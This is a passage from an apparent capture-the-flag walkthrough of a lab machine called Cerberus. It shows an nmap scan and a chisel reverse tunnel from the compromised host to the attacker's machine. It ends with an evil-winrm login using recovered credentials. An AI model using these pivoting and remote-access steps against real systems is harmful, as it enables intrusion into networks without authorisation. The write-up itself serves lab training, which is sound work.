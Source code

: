 ```bash
./nmap -p5985 -sC 172.16.22.1
```

![](/assets/img/cerberus/10.png)

after that we can do Port Forwarding or Pivoting using **chisel** for grabbing port 5985 to our localhost, upload **chisel** into target and execute command below:

**on victim**

```bash
./chisel client 10.10.14.146:9000 R:5985:172.16.22.1:5985
```

![](/assets/img/cerberus/11.png)

**on kali** 
```
./chisel server -p 9000 --reverse
```

![](/assets/img/cerberus/12.png)

after successfully doing port forwarding, we can logged in use **matthew:147258369** as credentials with following command:

```bash
evil-winrm -i 127.0.0.1 -u matthew -p 147258369
```
